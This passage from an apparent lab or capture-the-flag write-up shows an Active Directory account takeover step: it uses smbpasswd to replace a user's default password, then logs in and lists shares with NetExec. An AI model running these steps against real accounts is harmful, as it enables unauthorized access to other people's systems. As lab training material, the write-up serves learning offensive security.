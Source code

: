 - If `pwdLastSet` is `0`, this flag is active.
- The account **must change password before doing anything else**
    
    

---

We can simply use `smbpasswd` to change the password of a user

```bash
**smbpasswd -r 10.10.101.17 -U Caroline.Robinson**                                          
Old SMB password:**BabyStart123!**
New SMB password:**Password123!**
Retype new SMB password:**Password123!**
Password changed for user Caroline.Robinson on 10.10.101.17.
```

![image.png](/assets/Images/VL_Baby/image%207.png)

SMB login with updated credentials for Caroline.Robinson

```bash
nxc smb 10.10.101.17 -u Caroline.Robinson -p 'Password123!'
```

SMB login and list accessible shares with updated credentials

```bash
nxc smb 10.10.101.17 -u Caroline.Robinson -p 'Password123!' --shares
```

![image.png](/assets/Images/VL_Baby/image%208.png)
